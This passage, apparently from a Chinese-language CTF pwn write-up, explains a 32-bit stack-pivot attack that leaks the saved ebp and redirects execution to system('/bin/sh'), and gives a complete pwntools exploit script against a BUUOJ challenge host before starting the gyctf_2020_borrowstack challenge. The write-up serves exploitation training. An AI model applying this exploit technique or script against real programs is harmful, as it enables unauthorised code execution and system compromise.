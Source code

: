 
在上图中的Payload中， vuln 函数正常执行到leave指令时， ebp 寄存器将被赋予 old_ebp -0x38，而之后执行 ret（即第二个 leave ret）时， esp 将随之被覆盖为该值，因此该payload已然能实现将 esp 劫持至 old_ebp -0x38处的栈迁移效果了。

接下来则要向该框架中填充执行 system 的shellcode 以完成对 eip 与执行流的篡改。此处与传统的栈溢出攻击类似，下面直接给出payload结构。

![[Pasted image 20241003115656.png]]

上图中，栈迁移的最后一个 pop eip 执行结束后， esp 将指向 aaaa 后的内容开始执行，故此处要填上 system 函数地址，那么后面则应为一个 fake ebp 来维持栈操作的完整性。再往后则是 system 的函数参数，即 /bin/sh 的地址。而 /bin/sh 本身我们也可由 read 函数输入到该区域内，因此其地址恰好也在栈上。

综上即为完成栈迁移攻击的完整过程及payload。

#### **Step3. 攻击脚本编写**

在第一次 read 以泄露出栈上ebp内容时，注意应使用pwntools中的 send 而非 sendline，否则payload末尾会附上终止符导致无法连带打印出栈上内容。其余环节按照payload构造直接编写即可，如下所示。

```Python
from pwn import *
p = remote("node4.buuoj.cn", 27576)
#p = process('./pwn')
system_addr = 0x08048400
leave_ret = 0x080484b8
payload1 = b'A' * (0x27) + b'B'
p.send(payload1) # not sendline
p.recvuntil("B")
original_ebp = u32(p.recv(4))
print(hex(original_ebp))
payload2 = b'aaaa' # for location, start of hijaction
payload2 += p32(system_addr)
payload2 += b'dddd' # fake stack ebp
payload2 += p32(original_ebp - 0x28) # addr of binsh
payload2 += b'/bin/sh\x00' # at ebp-0x28
payload2 = payload2.ljust(0x28, b'p')
payload2 += p32(original_ebp - 0x38) # hijack ebp ,-0x38 is the aaaa
payload2 += p32(leave_ret) # new leave ret
p.sendline(payload2)
p.interactive()
```

上面那个是迁移到栈上面的，而下面这个就是迁移到bss段上的

  

### 第三题

#### 考点：栈迁移到bss段

#### 附件：


**gyctf_2020_borrowstack

先checksec一下
![[Pasted image 20241003115729.png]]
  